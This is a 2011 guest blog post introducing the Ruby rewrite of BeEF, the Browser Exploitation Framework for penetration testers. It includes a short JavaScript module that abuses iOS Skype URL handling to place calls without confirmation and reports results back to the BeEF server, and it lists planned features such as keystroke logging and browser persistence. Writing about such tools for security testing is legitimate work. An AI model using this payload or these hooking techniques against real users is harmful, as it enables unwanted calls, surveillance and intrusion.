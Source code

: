 ```yaml
---
title: Having Fun With BeEF, The Browser Exploitation Framework
author: pagvac
guest: chirstian-frichot
date: Tue, 22 Feb 2011 11:40:26 GMT
template: post.jade
---
```


> We haven't featured any guest bloggers in a while, but we're glad to be featuring [Chirstian Frichot](http://un-excogitate.org/) this month! Christian is a security professional based in Perth, Western Australia. He's currently working in the finance industry as part of a tight-knit internal team of security consultants doing their best to protect their business and customers from technical threats such as malware or insecure web applications.

> After having met [Wade Alcorn](http://www.bindshell.net/users/Wade) (the initial author and project lead of BeEF), Christian mentioned his interest in helping out on the project where he could, which eventually led to Wade accepting his offer. The discussion was held over a couple of bottles of wine, so perhaps Wade's regretting the decision now!

> Christian's role within the BeEF project, if it were to be defined, is odd-jobs-go-to-boy, command-module implementer, Ext-JS-fighter and twitter maintainer. When Christian is not working on BeEF, he's doing his best to represent the Perth OWASP Chapter, or laying down crunchy beats on the drum-kit.

> What follows are Chritian's words on the BeEF project.

Sorry vegetarians, but BeEF is back. That's right, the Browser Exploitation Framework is back, and it has now been rewritten from the ground up in Ruby. For those unfortunate people who haven't had a chance to explore the older, PHP version of BeEF you're only missing out on one of the greatest, most extensible XSS-payload management and exploitation frameworks out there, and the Ruby re-write is no different.

The Browser Exploitation Framework (BeEF) is a powerful, professional security tool. BeEF is pioneering techniques that provide the experienced penetration tester with practical client side attack vectors. Unlike other security frameworks, BeEF focuses on leveraging browser vulnerabilities to assess the security posture of a target.

One of the newer modules implemented in BeEF utilises the insecure handling of URL schemes in Apple's iOS to trick Skype into starting an outbound call. This vulnerability was first written about by [Nitesh Dhanjani](http://www.dhanjani.com/blog/2010/11/insecure-handling-of-url-schemes-in-apples-ios.html) and highlights that with the growing popularity of these devices these sorts of issues may lead to losses of information or other negative impacting events. The module itself is as simple as:

```javascript
beef.execute(function() {
	document.body.innerHTML = "<iframe src=skype:<%= @tel_num %>?call></iframe>";
	beef.net.sendback("<%= @command_url %>", <%= @command_id %>, "result=IFrame Created!");
});
```

which, once added to a particular hooked browsers command queue will simply execute upon next poll, and if they automatically authenticate to the Skype application, will initiate a call. Due to iOS' multi-tasking the Skype app does pop up to the top, so the end user is aware that the activity is occurring, but they're not prompted to "confirm" the action. You can see this module demonstrated bellow:

<iframe class="video" src="//www.youtube.com/embed/5SVu6VdLWgs" frameborder="0" allowfullscreen></iframe>

The current release is 0.4.2.1-alpha, but by release 0.5 (the Sirloin Release) we're expecting to have at least all of the PHP BeEF functionality provided plus much more, including:

1. jQuery included as part of the hooking process
2. Metasploit integration
3. Evercookie's for persistence even after a hooked browser has been closed
4. Full event logging, not just keystroke logging, to include window activation/deactivation, mouse clicks, etc
5. Arbitrary HTTP requester
6. Proxying
7. Persistence modules (subtle popups or 100%x100% iframes)
8. Detecting of social networking authentication status (as per [this](http://grepular.com/Abusing_HTTP_Status_Codes_to_Expose_Private_Information))

You can find out more about beef over at [http://beef.googlecode.com](http://beef.googlecode.com) or
by following the [@beefproject](http://twitter.com/beefproject).

_BeEF - Get it into ya!_
